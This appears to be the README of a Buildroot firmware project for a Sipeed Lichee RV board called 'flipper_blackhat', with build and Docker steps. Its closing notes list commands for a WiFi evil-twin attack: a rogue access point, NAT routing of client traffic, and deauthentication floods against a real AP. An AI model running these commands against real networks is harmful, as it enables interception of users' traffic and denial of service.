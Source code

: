 # Sipeed Lichee RV

## Build

Make sure submodules are initialized:

	git submodule update --init

Change to the top-level Buildroot directory:

	cd buildroot

Initialize the configuration, including the defconfig and this external directory:

	make BR2_EXTERNAL=$PWD/../ flipper_blackhat_defconfig

And compile:

	make

## Docker
I couldn't really get docker working, if you have better luck, PR's welcome

Build the Images
	docker build -t buildroot-env --build-arg HOST_USERNAME=$(whoami) --build-arg HOST_UID=$(id -u) --build-arg HOST_GID=$(id -g) .

Rin it
	docker run -it -v $(pwd):/home/$(whoami)/buildroot buildroot-env


## Device
There are two WiFi cards, one SDIO (wlan0, rtw88_8723ds.ko) and one USB (wlan1, rtw88_8821cu.ko). It makes more sense to use wlan1 as the rtw88_8821cu is a 5Ghz/2.4Ghz WiFi chipset.


## Notes
```
iw dev wlan1 set monitor none
airmon-ng start wlan1
# I think these commands do the same thing.
airbase-ng -e Turnip-WiFi -c 11 wlan1
ifconfig at0 up
ifconfig at0 10.0.0.1 netmask 255.255.255.0
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
iptables -P FORWARD ACCEPT
iptables -t nat -A POSTROUTING -o wlan0mon -j MASQUERADE
echo 1 > /proc/sys/net/ipv4/ip_forward

aireplay-ng –deauth 50 -a [BSSID of real AP] wlan0mon
